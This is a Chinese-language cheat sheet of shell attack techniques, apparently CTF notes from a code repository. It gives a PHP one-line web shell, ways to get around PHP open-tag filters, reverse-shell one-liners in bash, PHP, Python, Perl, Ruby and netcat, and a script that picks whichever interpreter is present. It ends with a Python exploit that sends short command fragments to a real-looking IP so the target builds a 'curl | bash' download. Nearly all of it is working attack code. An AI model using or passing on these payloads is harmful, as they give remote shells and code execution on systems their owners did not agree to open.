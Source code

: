 # Shell

## 几种特殊符号

1. 反引号 `` ` ``
2. 文件重定向符 `` > <``
3. 环境变量 ``${}``

## PHP

一句话：

```php
<?php eval($_REQUEST['eki']);?>
```

``eval``也可以改成``system、assert``

### Bypass:

1. 当仅禁用``<?php``时，可以使用``<?    ?> ``
    
   要求：需要开启短标签开关，``short_open_tag``

2. 当禁用``<?php``以及``?>``时，还可以使用``<?=``不需要闭合标签 
    
    要求：PHP版本>PHP 5.4.0

3. 禁用了``<?、 <?php、 ?>``时，可以使用asp标签``<%  %>``

    要求：asp_tags设成On


4. ``<script language="php">system($_REQUEST['eki']);</script>`` 
   
    等价于``<?php system($_REQUEST['eki']);?>``

    要求：php7之前

命令行反弹Shell

```bash
php -r '$sock=fsockopen("127.0.0.1",2333);exec("/bin/sh -i <&3 >&3 2>&3");
```

curl
```bash
curl http://127.0.0.1:2333/ -d `ls /`;
```

## BASH

```bash
bash -i >& /dev/tcp/127.0.0.1/233 0>&1
```

Ex: (自动根据环境来反弹shell)

```
if command -v python > /dev/null 2>&1; then python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("174.1.69.127",2333)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);' exit; fi if command -v perl > /dev/null 2>&1; then perl -e 'use Socket;$i="174.1.69.127";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' exit; fi if command -v nc > /dev/null 2>&1; then rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 174.1.69.127 2333 >/tmp/f exit; fi if command -v sh > /dev/null 2>&1; then /bin/sh -i >& /dev/tcp/174.1.69.127/2333 0>&1 exit; fi
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Perl

```perl
perl -e 'use Socket;$i="127.0.0.1";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",233).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```bash
nc -e /bin/sh 127.0.0.1 2333
```

正向弹

靶机：
```bash
nc -lvvp 2333 -e /bin/bash
```

攻击机
```
nc ip 2333
```
## 获取Bash交互行

```
python -c "import pty;pty.spawn('/bin/bash')"
```

## 字符限制绕过

以hackme为例

```python
import requests
from time import sleep
from urllib import quote
import base64

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate "curl <IPHEX> | ba sh;"
    # 
    '>\;',  
    '>sh\\',
    '>ba\\', 
    '>\|\\',
    '>XX\\', 
    '>XX\\', 
    '>XX\\', 
    '>XX\\',
    '>0x\\',
    '>\ \\', 
    '>rl\\',
    '>cu\\',

    'sh x', 
    'sh g',
]


for i in payload:
    assert len(i) <= 4
    header ={
        "User-Agent":"Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36",
        "Cookie":"PHPSESSID=1af6e5b03d0df7c07ae2e548bd44183c"
    }
    data ={
        "url":"compress.zlib://data:@127.0.0.1/plain;base64,"+base64.b64encode(i)
    }
    r = requests.post(url='http://121.36.222.22:88/core/index.php',data=data,headers=header)
    print r.text
    print i
    sleep(0.1)
```

## 绕过cat

1. ``\``
2. ``rev,more``
3. ``tac``